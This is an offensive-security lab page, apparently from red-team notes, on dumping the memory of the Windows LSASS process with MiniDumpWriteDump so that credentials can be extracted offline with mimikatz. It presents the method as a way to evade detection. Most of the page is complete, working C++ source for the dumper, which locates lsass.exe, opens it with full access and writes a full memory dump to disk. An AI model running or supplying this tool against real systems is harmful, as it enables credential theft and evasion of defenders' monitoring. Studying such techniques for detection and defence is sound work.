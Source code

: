 ```yaml
---
description: 'Evasion, Credential Dumping'
---
```


# Dumping LSASS without Mimikatz with MiniDumpWriteDump == Reducing Chances of Getting Flagged

This lab explores multiple ways of how to write a simple `lsass` process dumper using `MiniDumpWriteDump`. Lsass process dumps created with `MiniDumpWriteDump` can be loaded to mimikatz offline, where credential materials could be extracted.

## MiniDumpWriteDump to Disk

It's possible to use `MiniDumpWriteDump` API call to dump lsass.exe process memory.

### Code

{% code title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode %}
